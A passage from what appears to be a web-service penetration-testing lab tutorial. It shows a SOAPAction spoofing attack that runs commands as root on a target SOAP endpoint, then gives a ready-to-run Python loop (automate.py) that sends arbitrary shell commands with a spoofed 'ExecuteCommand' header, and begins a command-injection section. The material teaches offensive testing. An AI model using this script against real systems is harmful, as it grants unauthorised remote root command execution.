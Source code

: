 Let us execute the new script.

```shell
python3 client_soapaction_spoofing.py
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>root\n</result></LoginResponse></soap:Body></soap:Envelope>'

```

Our `whoami` command was executed successfully, bypassing the restrictions through SOAPAction spoofing!

If you want to be able to specify multiple commands and see the result each time, use the following Python script (save it as `automate.py`).

```python
import requests

while True:
    cmd = input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)

```

You can execute it as follows.

```shell
python3 automate.py
$ id
b'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginResponse xmlns="http://tempuri.org/"><success>true</success><result>uid=0(root) gid=0(root) groups=0(root)\n</result></LoginResponse></soap:Body></soap:Envelope>'
$

```


# Command Injection

* * *

Command injections are among the most critical vulnerabilities in web services. They allow system command execution directly on the back-end server. If a web service uses user-controlled input to execute a system command on the back-end server, an attacker may be able to inject a malicious payload to subvert the intended command and execute his own.

Let us assess together a web service that is vulnerable to command injection.
